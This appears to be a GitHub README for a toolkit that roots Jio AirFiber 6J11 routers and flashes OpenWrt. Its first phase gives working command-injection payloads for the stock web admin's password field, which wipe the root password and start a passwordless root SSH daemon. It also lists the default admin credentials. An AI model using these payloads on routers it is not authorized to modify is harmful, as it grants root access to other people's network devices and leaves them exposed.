# Jio AirFiber 6J11 Series (JIDU 6111 / 6411 / 6611 / 6811 / 6911)
## Standard OpenWrt Flashing & LuCI Web GUI Activation Toolkit

<p align="center">
  
  
  
  
  
</p>

---

## ⚡ Overview & Mission

The **Jio AirFiber 6J11 IDU family** (`JIDU 6111`, `JIDU 6411`, `JIDU 6611`, `JIDU 6811`, `JIDU 6911`) features robust enterprise-grade Wi-Fi 6 hardware driven by Qualcomm IPQ50xx/IPQ95xx SoCs with 256MB+ NAND flash. However, in factory state, this hardware is heavily locked down by proprietary ISP firmware, blocking basic routing freedom, custom VLAN configurations, DNS control, and TR-069 telemetry isolation.

This repository, authored and curated by **[DC VOLTAGE](https://github.com/dc-voltage)**, provides an end-to-end educational toolkit and automated flashing suite to:
1. **Gain Root SSH Access** remotely over local network via WebUI command injection (no opening the router, no soldering, no UART required).
2. **Unlock the Native OpenWrt LuCI Web GUI** directly on the stock Jio firmware without altering NAND partitions (100% safe, reversible).
3. **Automate Full Custom OpenWrt Flashing** via a failsafe dual-slot A/B NAND flashing technique using 1-click Windows (`.bat`) and Linux/macOS (`.sh`) toolkits.

---

## 📑 Table of Contents

- [Supported Hardware Models](#supported-hardware-models)
- [How It Works: Technical Architecture](#how-it-works-technical-architecture)
- [Phase 1: Gaining Root SSH Access (The Password Injection Exploit)](#phase-1-gaining-root-ssh-access-the-password-injection-exploit)
- [Phase 2: Essential Pre-Flash Safety Backup](#phase-2-essential-pre-flash-safety-backup)
- [Method A: Activating Native LuCI Web GUI on Stock Jio Firmware](#method-a-activating-native-luci-web-gui-on-stock-jio-firmware)
- [Method B: 1-Click Automated OpenWrt Flasher (Windows / Linux)](#method-b-1-click-automated-openwrt-flasher-windows--linux)
- [Method C: Advanced Manual Terminal Flashing](#method-c-advanced-manual-terminal-flashing)
- [Visual Verification & Feature Showcase](#visual-verification--feature-showcase)
- [Network Configuration & Post-Install Setup](#network-configuration--post-install-setup)
- [Troubleshooting & Emergency Recovery](#troubleshooting--emergency-recovery)
- [Credits & Open-Source Acknowledgments](#credits--open-source-acknowledgments)
- [Disclaimer & License](#disclaimer--license)

---

## 📱 Supported Hardware Models

| Family | Model Numbers | Processor / SoC | Wi-Fi Standard | Supported Stock Firmware |
| :--- | :--- | :--- | :--- | :--- |
| **Jio JIDU 6J11** | `JIDU 6111`, `JIDU 6411`, `JIDU 6611`, `JIDU 6811`, `JIDU 6911` | Qualcomm IPQ50xx / IPQ95xx | Wi-Fi 6 (AX6000) | `R3.2` or below (e.g. `JIO_JIDU6J11_R2.0.19.5`) |
| **Jio JIDU 6J01** | `JIDU 6201`, `JIDU 6401`, `JIDU 6601`, `JIDU 6701` | MediaTek Filogic 820 / MT7981 | Wi-Fi 6 (AX3000) | `R3.2` or below |
| **Jio 6101** | `JIDU 6101` | MediaTek MT7621 / MT7981 | Wi-Fi 5 / Wi-Fi 6 | All revisions |

> [!NOTE]
> To verify your current stock firmware version, log into the Jio Web Admin panel (`http://192.168.31.1` or `http://192.168.29.1`) and check **Status → Firmware Details**. Firmware versions `R2.x` through `R3.2` are 100% compatible with the WebUI password injection exploit.

---

## 🧠 How It Works: Technical Architecture

### 1. Dual-Boot A/B NAND Partitioning
The Jio 6J11 router uses an enterprise NAND memory architecture with dual operating system slots:
* **Slot A (`rootfs` / `mtd23`):** The primary root filesystem partition.
* **Slot B (`rootfs_1` / `mtd24`):** The secondary standby root filesystem partition.

When the router boots, U-Boot reads kernel command-line parameters (`/proc/cmdline`) to determine the active rootfs (`ubi.mtd=rootfs` or `ubi.mtd=rootfs_1`). 

### 2. The Failsafe Flash Strategy
Rather than flashing directly to the active system (which can result in a hard-brick if an error occurs), our `flash.sh` script:
1. Dynamically parses `/proc/cmdline` to identify which slot is active.
2. Selects the **opposite, idle slot** as the target.
3. Formats and writes the temporary OpenWrt `factory.ubi` image solely to the idle partition.
4. Reprograms U-Boot boot arguments (`fw_setenv`) to switch boot priority to the newly flashed slot.
5. Reboots cleanly into OpenWrt initramfs. From there, a permanent `sysupgrade` is applied to finalize the flash.

---

## 🔓 Phase 1: Gaining Root SSH Access (The Password Injection Exploit)

The stock Jio Web Admin interface contains an unquoted command evaluation vulnerability in its password modification script. Because parameters are evaluated directly in a subshell, command substitution syntax `$()` can be executed with full `root` privileges.

Follow this exact 3-step sequence:

### Step 1.1: Log into Stock Web GUI
1. Connect your computer to the router via an Ethernet cable (LAN port).
2. Open your browser and navigate to: **`http://192.168.31.1`** (or `http://192.168.29.1` depending on revision).
3. Log in using default stock credentials:
   * **Username:** `admin`
   * **Password:** `Jiocentrum`

### Step 1.2: Remove Root User Password
1. Navigate to **User Profile → Change Password** (top right corner).
2. Set the **New Password** to the following exact string:
   ```text
   Aa1$(passwd${IFS}-d${IFS}root)
   ```
   > **How it works:** `${IFS}` represents the shell's internal field separator (space). When processed by the router's internal backend script, `passwd -d root` executes, wiping the password requirement for user `root`.
3. Save changes and log out.

### Step 1.3: Terminate Restricted Dropbear SSH Daemon
1. Log back into the WebUI using the password: `Aa1$(passwd${IFS}-d${IFS}root)`.
2. Go back to **Change Password**.
3. Set the **New Password** to:
   ```text
   Cc2$(killall${IFS}dropbear)
   ```
   > **How it works:** This kills any existing, restricted SSH instance running on port 22.
4. Save changes and log out.

### Step 1.4: Spawn Unrestricted Root Dropbear SSH Server
1. Log back in using: `Cc2$(killall${IFS}dropbear)`.
2. Go to **Change Password** one final time.
3. Set the **New Password** to:
   ```text
   Dd3$(dropbear${IFS}-B)
   ```
   > **How it works:** Spawns a clean `dropbear` daemon with `-B` (allow blank passwords / passwordless root authentication).
4. Save changes.

### Step 1.5: Test SSH Root Connection
Open Terminal (macOS/Linux) or PowerShell (Windows) and connect:
```bash
ssh root@192.168.31.1
```
Press **ENTER** when prompted for password. You will be instantly greeted by the root router prompt!

---

## 🛡️ Phase 2: Essential Pre-Flash Safety Backup

Before modifying firmware partitions, **always backup your unique hardware calibration data and NAND partitions**.

Run the automated backup script directly on the router:
```bash
# Upload and execute the backup script
scp scripts/backup_stock_partitions.sh root@192.168.31.1:/tmp/
ssh root@192.168.31.1 "sh /tmp/backup_stock_partitions.sh"

# Download the backup archive to your PC
scp root@192.168.31.1:/tmp/jio6j11_stock_backup.tar.gz ./
```

Or perform manual partition backup:
```bash
# Save Board and Wi-Fi Calibration Data
jioMfgData get all > /tmp/jioMfgData_backup.txt

# Backup Dual Rootfs Partitions
cat /dev/mtd23 > /tmp/mtd23_rootfs.bin
cat /dev/mtd24 > /tmp/mtd24_rootfs1.bin

# Pull files to your PC
scp root@192.168.31.1:/tmp/*.bin ./
```

---

## 🌐 Method A: Activating Native LuCI Web GUI on Stock Jio Firmware

Did you know that Jio's stock firmware (`JIO_JIDU6J11_R2.0.19.5`) is built directly on top of OpenWrt? The standard LuCI web interface is already present on the router but hidden behind the locked ISP portal.

If you want full administrative control (VLANs, custom SSIDs, advanced routing, TR-069 disabling) **WITHOUT flashing custom firmware**, you can simply enable the native LuCI web server:

```bash
# Connect to router via SSH
ssh root@192.168.31.1

# Enable and start uhttpd (LuCI Web Server)
/etc/init.d/uhttpd enable
/etc/init.d/uhttpd start

# Disable TR-069 ISP remote telemetry (prevents Jio from reverting settings)
/etc/init.d/tr069 stop
/etc/init.d/tr069 disable
```

Once started, open **`http://192.168.31.1`** (or configured port) to access the standard OpenWrt LuCI administration panel!

---

## 🚀 Method B: 1-Click Automated OpenWrt Flasher (Windows / Linux)

For users who want full upstream OpenWrt with modern Linux kernels, WireGuard, and AdGuard Home, use our automated 1-click flasher suite located in `scripts/`.

### Firmware Preparation
Download the required OpenWrt firmware files for Jio AX6000 6J11:
1. `openwrt-qualcommbe-ipq95xx-jiorouter_ax6000-jidu6j11-initramfs-factory.ubi` (Factory Image)
2. `openwrt-qualcommbe-ipq95xx-jiorouter_ax6000-jidu6j11-squashfs-sysupgrade.bin` (Sysupgrade Image)

Place both firmware files inside the `scripts/` folder alongside `flash.sh`.

### On Windows:
Double-click:
```cmd
scripts\DC_Voltage_Jio_6J11_Flasher.bat
```
The flasher will automatically:
1. Detect firmware images and verify checksum integrity.
2. Verify SSH connection to the router.
3. Upload `factory.ubi` and `flash.sh` to `/tmp/`.
4. Run NAND slot detection, write to idle slot, and configure U-Boot.
5. Wait for the 90-second reboot into temporary OpenWrt (`192.168.1.1`).
6. Upload and apply permanent `sysupgrade` to merge partitions into a unified OpenWrt installation.

### On Linux / macOS:
```bash
cd scripts
chmod +x dc_voltage_jio_6j11_flasher.sh flash.sh
./dc_voltage_jio_6j11_flasher.sh
```

---

## 🛠️ Method C: Advanced Manual Terminal Flashing

For advanced developers and network engineers who prefer executing each command manually:

### Step 1: Upload Factory Image
```bash
# Clear old SSH host keys
ssh-keygen -R 192.168.31.1

# Transfer factory image and flash script
scp -O openwrt-*-factory.ubi scripts/flash.sh root@192.168.31.1:/tmp/
```

### Step 2: Flash Idle Slot via Router Shell
```bash
ssh root@192.168.31.1

# Format line endings and execute
sed -i 's/\r$//' /tmp/flash.sh
sh /tmp/flash.sh
```
The script outputs:
```text
[+] Active slot is: rootfs
[+] Idle slot is: rootfs_1
[+] Target MTD device: /dev/mtd24 (24)
[+] Formatting and flashing factory.ubi to /dev/mtd24...
[+] Updating U-Boot environment...
[+] SUCCESS! Rebooting in 3 seconds...
```

### Step 3: Connect to Temporary OpenWrt
After 90 seconds, configure your PC network adapter to DHCP. The router will boot OpenWrt at gateway **`192.168.1.1`**.

Verify connection:
```bash
ping 192.168.1.1
```

### Step 4: Apply Permanent Sysupgrade
```bash
# Remove host key for 192.168.1.1
ssh-keygen -R 192.168.1.1

# Upload sysupgrade binary
scp -O openwrt-*-sysupgrade.bin root@192.168.1.1:/tmp/sysupgrade.bin

# Trigger sysupgrade (merges both slots into unified 220MB+ overlay)
ssh root@192.168.1.1 "sysupgrade -v -n /tmp/sysupgrade.bin"
```
Wait 90 seconds for the final system initialization.

---

## 🖼️ Visual Verification & Feature Showcase

The following real screenshots document the end-to-end process and showcase the fully unlocked capabilities of the Jio AirFiber 6J11 hardware:

### 1. WebUI Exploit & Password Injection
Command injection payloads entered into the stock web interface to gain passwordless root SSH access:

| Password Injection Step | Configuration Screen |
| :---: | :---: |
|  |  |
|  |  |

---

### 2. OpenWrt LuCI Web GUI & System Status
Once unlocked, the router presents the complete OpenWrt LuCI administration dashboard, displaying kernel details, CPU load, and real-time network graphs:


*Figure: Standard OpenWrt LuCI Web GUI running on Jio JIDU 6J11 (R2.0.19.5 r0-8414d4dbf).*

| System & Hardware Metrics | Firmware Details |
| :---: | :---: |
|  |  |

---

### 3. Wireless Networks & Access Point Management
Unlock all hidden Wi-Fi SSIDs, frequency channels (2.4 GHz & 5 GHz), channel bandwidths (80MHz/160MHz), and transmit power levels:

| Wireless Overview | Access Point List |
| :---: | :---: |
|  |  |

---

### 4. Enterprise Networking: VLANs & Bandwidth Statistics
Full support for 802.1Q VLAN trunking and per-interface real-time traffic accounting:

| VLAN Membership Configuration | Real-Time Bandwidth Statistics |
| :---: | :---: |
|  |  |

---

### 5. Advanced Security & ISP Telemetry Isolation
Complete control over internal packet inspection, content filters, and stopping ISP remote management:

| TR-069 Telemetry Accounting | Security & Attack Checks |
| :---: | :---: |
